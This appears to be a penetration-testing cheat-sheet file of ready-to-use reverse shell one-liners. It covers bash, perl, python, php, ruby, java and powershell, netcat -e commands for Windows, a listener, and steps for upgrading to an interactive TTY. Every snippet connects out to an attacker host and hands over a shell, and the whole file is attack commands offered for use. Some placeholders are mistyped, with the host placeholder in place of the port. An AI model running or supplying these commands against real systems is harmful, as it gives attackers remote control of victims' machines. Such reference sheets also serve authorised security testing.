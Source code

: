 # reverse shell

%reverse shell, reverse
#plateform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## bash reverse shell
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

## perl reverse shell
```
perl -e 'use Socket;$i="<lhost>";$p=<lport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php reverse shell
```
php -r '$sock=fsockopen("<lhost>",<lport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("<lhost>",<lport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## java reverse shell
```java
r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<lhost>/<lport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()
```


## powershell reverse shell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -c  $client = New-Object System.Net.Sockets.TCPClient('<lhost>',<lhost>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



## nc powershell reverse shell (windows)
```powershell
c:\Users\ngodfrey\Documents\nc64.exe -nv <lhost> <lhost> -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

## nc cmd reverse shell (windows)
```powershell
c:\Users\ngodfrey\Documents\nc64.exe -nv <lhost> <lhost> -e cmd.exe
```

## windows listener autocompletion
```
rlwrap nc -nlvp <port>
```

## interactive reverse shell - and Ctrl+Z (1) 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## interactive reverse shell - on host - and do fg (2)
```
stty raw -echo
```

## interactive reverse shell - on reverse (3)
```
reset
stty rows <ROWS> cols <COLS>
export TERM=xterm-256color
```
